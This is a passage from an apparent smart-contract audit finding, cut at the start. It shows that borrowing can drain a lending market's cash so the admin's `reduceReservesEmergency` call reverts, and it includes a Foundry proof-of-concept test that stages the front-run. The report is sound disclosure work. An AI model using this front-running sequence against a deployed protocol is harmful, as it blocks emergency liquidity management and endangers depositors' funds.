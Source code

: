 ```solidity

        newReserve = totalReserve - reduceAmount;

        // doTransferOut reverts if anything goes wrong, since we can't be sure if side effects occurred.
        doTransferOut(msg.sender, reduceAmount);
    }
```

## Impact Explanation

**Impact:** High

Once cash is borrowed, the protocol owner or emergency withdrawer cannot reduce or reallocate reserves, stopping any urgent liquidity management.

## Likelihood Explanation

**Likelihood:** High

Any borrower with sufficient collateral and borrow allowance can trigger this scenario without special permissions.

## Proof of Concept

The following test demonstrates that after a borrow drains cash, `reduceReservesEmergency` reverts.

To run the test:
`forge test --match-test test_ReservesEmergency_Attack -vvvv`

```solidity
function test_ReservesEmergency_Attack() public {
        address user1 = makeAddr("user1");
        uint256 value = 1e18;
        address depositor = makeAddr("depositor");

        doDeposit(depositor, depositor, address(pWETH), 1e18);

        deal(pUSDC.asset(), user1, value);

        uint256 reserveBefore = pUSDC.totalReserves();

        vm.startPrank(user1);
        IERC20(pUSDC.asset()).approve(address(pUSDC), value);
        pUSDC.addReserves(value);
        vm.stopPrank();

        uint256 reserveAfter = pUSDC.totalReserves();

        assertEq(reserveBefore + value, reserveAfter);
 
        // Now this is a frot-run of the EMERGANCY WITHDRAW and it works because it gets tokens from the reserve
        doBorrow(depositor, depositor, address(pUSDC), 1400e6);

        // We expect this to revert as the borrower has taken the cash and now there is no enought reserve
        vm.startPrank(getAdmin());
        vm.expectRevert();
        pUSDC.reduceReservesEmergency(value);
    }
```
